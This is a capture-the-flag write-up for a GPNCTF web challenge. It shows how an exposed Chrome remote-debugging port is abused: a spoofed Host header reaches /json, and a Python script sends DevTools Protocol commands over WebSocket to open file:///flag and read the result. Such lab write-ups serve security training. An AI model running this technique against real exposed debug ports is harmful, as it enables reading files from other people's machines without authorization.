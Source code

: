 # Inspect Element

> <p>Maybe using Inspect Element will help you!</p>
> <p><a href="attachments/inspect-element.tar.gz">inspect-element.tar.gz</a></p>

## Path to Flag

We are given a `dockerfile`

```
# docker build -t inspect-element . && docker run -p 1337:1337 -t inspect-element
FROM node:20-buster-slim

# Install Google Chrome
RUN apt-get update \
    && apt-get install -y wget gnupg \
    && wget -q -O - https://dl-ssl.google.com/linux/linux_signing_key.pub | apt-key add - \
    && sh -c 'echo "deb [arch=amd64] http://dl.google.com/linux/chrome/deb/ stable main" >> /etc/apt/sources.list.d/google.list' \
    && apt-get update \
    && apt-get install -y google-chrome-stable fonts-ipafont-gothic fonts-wqy-zenhei fonts-thai-tlwg fonts-kacst fonts-freefont-ttf libxss1 libx11-xcb1 \
    --no-install-recommends \
    && rm -rf /var/lib/apt/lists/*

# Install socat
RUN apt-get update && apt-get install -y socat

ARG FLAG=GPNCTF{fake_flag}
RUN echo "$FLAG" > /flag

# Using socat to bypass Chrome filtering out non-local connections
CMD \
socat tcp-listen:1337,fork tcp:localhost:13370 & \
google-chrome --remote-debugging-port=13370 --disable-gpu --headless=new --no-sandbox google.com

# Expose port 1337
EXPOSE 1337
```

Based on that file, it seems that it is about `Chrome Debugging`, then we'll be using the `Chrome DevTools Protocol`. I tried to checkout `/json` and set the host to `localhost`.

<img src="attachments/chrome-debug.png">

Since then, it seems that the chall is about Websocket attack
Straightforwardly, extract the the `WebSocket Debugger URL`, connect to the websocket, and navigate to `file:///flag`, and retrieve the html response.

```
#!/usr/bin/env python3

import requests
import websocket
import json

def page_navigate(ws, url):
    payload = {
        "id": 1,
        "method": "Page.navigate",
        "params": {
            "url": url
        }
    }
    ws.send(json.dumps(payload))
    return json.loads(ws.recv())

def get_current_html(ws):
    payload = {
        "id": 2,
        "method": "Runtime.evaluate",
        "params": {
            "expression": "document.documentElement.outerHTML"
        }
    }
    ws.send(json.dumps(payload))
    return json.loads(ws.recv())["result"]["result"]["value"]

target = requests.get("https://sweet-dreams-are-made-of-this--naturally-7-1917.ctf.kitctf.de/json", headers={
    "Host": "localhost"
}).json()

websocket_url = target[0]["webSocketDebuggerUrl"]
websocket_url = websocket_url.replace("localhost", "sweet-dreams-are-made-of-this--naturally-7-1917.ctf.kitctf.de")
websocket_url = websocket_url.replace("ws://", "wss://")
print(websocket_url)

ws = websocket.WebSocket()
ws.connect(websocket_url, suppress_origin=True)
print(page_navigate(ws, "file:///flag"))
print(get_current_html(ws))
```

<img src="attachments/flag.png">

`GPNCTF{D4NG3R0U5_D3BUGG3R}`
